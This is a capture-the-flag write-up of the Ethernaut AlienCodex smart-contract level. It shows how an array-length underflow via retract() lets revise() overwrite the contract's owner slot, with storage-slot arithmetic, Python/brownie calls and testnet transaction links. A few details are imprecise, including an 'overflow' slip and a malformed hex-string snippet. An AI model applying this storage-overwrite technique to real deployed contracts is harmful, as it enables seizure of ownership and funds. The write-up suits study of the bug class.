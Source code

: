 # AlienCodex

## Objectives

Claim ownership to complete the level.

## Solution

In the AlienCodex contract we can leverage the `retract()` function to cause an integer underflow in the length of the `codex` array. This underflow allows us to modify any state variable in the contract through the `revise()` function. The exploit can be performed as follows:

1. Call the `make_contact()` function to pass the `contacted()` modifier check, requiring `contact` to be true.

2. Call the `retract()` function to cause an integer overflow in the `codex` array length

3. Find the hash of the `owner` state variable as if it were part of the `codex` array by:

* Obtaining the hash of the first item in the `codex` array (as it is indexed in the contract storage), corresponding to its slot in the contract storage. This can be obtained by computing the Keccak256 hash of first _position_, so: `keccak256(0x0000000000000000000000000000000000000000000000000000000000000001)`. 

* Taking the hash resulting from this (`0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`) and subtracting its integer value from the maximum amount of slots in a contract plus one ($2^{256} - 1$), so roughly:

$$2^{256} - int(0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6)$$

In Python (for example):

```python
2**256 -  int(web3.sha3(hexstr=f'0x{"0"*65}1').hex(),16)
```

Which returns the hash: `0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a`

4. Using this resulting value in `revise()` as the `i` (index) of the array `codex` to modify and `_content` as our address.


## How I did it

_Exactly_ as described in [solution](#solution), but using my local setup in brownie:

1. Call `make_contact()`

```python
aliencodex.make_contact(_from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x74e8128a14d8864febad45c3af8eeb42f8da329fb5a991a6ce863343ed31a581

2. Call `retract()` 

```python
aliencodex.retract(_from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x2affc0a88a1ec555330db5735d68e7819159a18aa905d5fb93698aa9eaa05dd1

3. Obtain the `codex` hash with the position of the `_owner` state variable in storage

```python
position_one = encode_abi(['uint256'],[1]).hex()
owner_hash = hex(2**256 - int(web3.sha3(hexstr=f"0x{position_one}").hex(),16))
```

4. Call `revise()` passing in my address and the hash

```python
aliencodex.revise(owner_hash, acc.address, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x12237e71e4fe8c6dcb94a3b3dea913d30fc8c99cc96faa890bb5bb3e1bdcb7da

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x5aeb0a8299d1b6000a56b6952b15f88f9571781402a839b483cab48f37749998
